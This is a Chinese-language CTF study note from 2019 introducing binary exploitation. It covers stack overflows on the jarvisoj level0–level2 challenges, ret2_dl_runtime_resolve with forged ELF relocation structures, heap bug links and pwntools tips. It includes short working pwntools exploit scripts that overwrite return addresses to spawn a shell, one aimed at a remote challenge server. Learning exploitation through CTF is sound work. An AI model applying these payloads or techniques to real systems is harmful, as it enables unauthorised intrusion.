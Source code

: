 ```yaml
---
title: 面向板子写exp
date: 2019-07-18
categories:
-  curriculum_self
tag: vulnerability_overview
---
```


# pwn 是什么

钻可执行二进制文件的空子的一种技术。

# pwn 需要的工具

1. 一些python技能
2. pwntools
3. ida
4. gdb 
5. 关于程序漏洞的基础知识

# pwn 可以干什么

利用提前写好的脚本攻击某一个进程，控制运行这个进程的主机。也就是常说的getshell。

# 几个基础漏洞

1. 栈溢出
2. 堆溢出
3. 格式化字符串漏洞
4. 其他 <font style="font-size:10px">——对不起我还没有学到这里来TAT</font>

# 例子

## 简单栈溢出

 关于栈的内容：<a href="https://blog.csdn.net/xiliang_pan/article/details/52174143">click!</a>

1. **<a href="https://www.jarvisoj.com" style ="font-size:16px">jarvisoj</a>**-level1

    直接往栈上直接写shellcode。将返回地址覆盖成shellcode开始的地址。    
    两个条件：
    > NX防护没有开 
    >  
    > 知道栈地址

    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071891259_PVHSV.png)

2. **<a href="https://www.jarvisoj.com" style ="font-size:16px">jarvisoj</a>**-level0

    - 漏洞是明显的栈溢出。    
        ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885037_CKAua.png)    

        自带getshell函数。  
        ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885037_Xzjfh.thumb.700_0.png)
        
    - checksec可以发现    
        ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885245_Y5ynZ.png)

        PIE没开，所以可以直接攻击他的返回地址。   
     ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885037_cw5yK.thumb.700_0.png)
       
    -  exp

    ```python
    from pwn import *

    sh= process("./level0")
    system_addr=0x400596
    payload='A' * 0x80 +'B' * 0x8 +p64(system_addr)

    sh.sendline(payload)
    sh.interactive()
    ```
3. **<a href="https://www.jarvisoj.com" style ="font-size:16px">jarvisoj</a>**-level2

    这道题没有直接的`system("/bin/sh")`,需要在伪造返回地址的基础上构造参数。
    ```python
    from pwn import *

    payload = 'a'*(0x88+0x4)
    elf=ELF("./level2")
    sys_addr=elf.symbols["system"]
    bin_addr=elf.search("/bin/sh").next()
    payload += p32(sys_addr)+p32(0xdeadbeef)+p32(bin_addr)

    sh=remote("pwn2.jarvisoj.com",'9878')
    sh.sendline(payload)
    sh.interactive()
    ```

## 基础 ROP 利用
<a href="https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/#ret2syscall">ctfwiki</a>上讲的太详细了=v< 

## <a href="https://cythz.github.io/sundry/2019/07/18/smallbug3/#">smallbug3</a>
- 关于`canary`和`pie`的

## ret2_dl_runtime_resolve

### 概念
- 四个section
1. `.dynamic `

    保存了下面三个section的指针。 
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_MEQ38.png)  
2. `.dynstr`   

    是一个字符串表，内容是指针，指向函数名字符串。    
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_zxxdM.png)
3. `.dynsym`   

    是一个结构体数组。    
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_wkKPS.png)
4. `.rel.plt `  
    
    也是一个结构体数组。

    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_MjzWz.png)


### `__dl_runtime_resolve` 大致流程

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718171653_JuHvd.png)


### 攻击手段

#### 改写`.dynstr`节的指针
让这个指针指向我们需要的函数名字符串，例如`system`字符串
- 缺陷
    只有在NO RELRO时候才有权限更改.dynstr。

#### 伪造结构体

因为函数的执行过程就是不断地寻找结构体，从结构体中拿数据，而在函数源码中，并不会检查offset是否会过界，所以我们可以在可控制的地方伪造结构体，来调用目标函数。

0. 计算fake_rel和`.rel.plt`的距离偏移量作为offset，注意64位需要除以`sizeof(ELF32_REL)`。

1. 伪造一`fake_rel`，使他的rel_info字段成为`0x******07`，这个07是导入函数的参数。暂时不知道干嘛的，但最好不要改。

2. `******`是指fake_sym距离`.dynsym`的`偏移/sizeof(ELF32_SYM)`。

3. `fake_sym`中`st_name`是fake_string距离`.dynstr`的偏移量。



<a href="https://github.com/CythZ/ret2_dl_runtime_resolve">三道题</a>
    
## heap
### <a href="https://cythz.github.io/hitcon_trainning/2019/07/15/bamboobox/#">unlink</a>
### <a href="https://cythz.github.io/hitcon_trainning/2019/07/15/bamboobox/#">HOF</a>
### <a href="https://cythz.github.io/hitcon_trainning/2019/07/13/hacknote/#">UAF</a>


## <a href="https://cythz.github.io/hitcon_trainning/2019/07/13/playfmt/#">格式化字符串漏洞</a>

## 其他

### 只了解了一个

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718152603_dYEFR.png)  
.init_array 和 .fini_array节存放了指向初始化代码和终止代码的函数指针。.init_array函数指针会在调用main()之前被触发，.fini_array函数指针在main()执行完后才被触发。 这就意味着可以通过重写某个指向正确地址的指针来将控制流指向病毒或者寄生代码。

# 写exp时的几个trick

1. 显示发送和接收的数据
```python
context.log_level = 'debug'
```

2. debug
```python
context.terminal = ['deepin-terminal','-x','sh','-c']
sh=process('./elffile')
gdb.attach(sh)
```

3. 不用写libc的绝对路径
```python
libc = ELF('./elffile').libc
```
